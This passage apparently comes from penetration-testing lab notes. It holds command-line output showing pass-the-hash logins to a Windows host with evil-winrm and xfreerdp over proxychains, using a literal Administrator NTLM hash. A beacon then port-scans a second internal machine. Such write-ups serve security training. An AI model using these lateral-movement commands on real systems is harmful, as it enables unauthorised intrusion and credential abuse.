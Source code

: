 ```powershell
[root💀~] [10.10.14.39] [2023-10-06 14:33:09] 
proxychains evil-winrm -i 172.16.1.30 -u Administrator -H 7facdc498ed1680c4fd1448319a8c04f
```

```powershell
[root💀~] [10.10.14.39] [2023-10-06 14:37:11] 
 └─╼ # proxychains xfreerdp /u:Administrator /d:CORP /pth:7facdc498ed1680c4fd1448319a8c04f /cert:ignore /v:172.16.1.30
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[14:39:18:171] [14751:14819] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[14:39:18:172] [14751:14819] [WARN][com.freerdp.crypto] - CN = MS01.corp.local
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - The hostname used for this connection (172.16.1.30:3389) 
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - Common Name (CN):
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - 	MS01.corp.local
[14:39:18:174] [14751:14819] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 172.16.1.30:3389 (RDP-Server):
	Common Name: MS01.corp.local
	Subject:     CN = MS01.corp.local
	Issuer:      CN = MS01.corp.local
	Thumbprint:  85:3f:de:58:4e:c3:c1:7f:75:4b:8c:12:0b:9e:6d:25:dc:a3:d0:3b:32:b7:6d:d3:97:61:1d:34:e7:d2:44:13
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
[14:39:21:760] [14751:14819] [WARN][com.freerdp.core.nla] - SPNEGO received NTSTATUS: STATUS_LOGON_FAILURE [0xC000006D] from server
[14:39:21:760] [14751:14819] [ERROR][com.freerdp.core] - nla_recv_pdu:freerdp_set_last_error_ex ERRCONNECT_LOGON_FAILURE [0x00020014]
[14:39:21:760] [14751:14819] [ERROR][com.freerdp.core.rdp] - rdp_recv_callback: CONNECTION_STATE_NLA - nla_recv_pdu() fail
[14:39:21:760] [14751:14819] [ERROR][com.freerdp.core.transport] - transport_check_fds: transport->ReceiveCallback() - -1
```
Going to try to get to WSADM `172.16.1.36`
```powershell
[10/06 14:53:16] beacon> portscan 172.16.1.36 1-1024,5000-6000 arp 1024
[10/06 14:53:16] [*] Tasked beacon to scan ports 1-1024,5000-6000 on 172.16.1.36
[10/06 14:53:17] [+] host called home, sent: 93797 bytes
[10/06 14:53:19] [+] received output:
(ARP) Target '172.16.1.36' is alive. 00-50-56-B9-44-80
172.16.1.36:5985

[10/06 14:53:24] [+] received output:
172.16.1.36:5040

[10/06 14:53:33] [+] received output:
172.16.1.36:139
172.16.1.36:135

[10/06 14:53:37] [+] received output:
172.16.1.36:445
```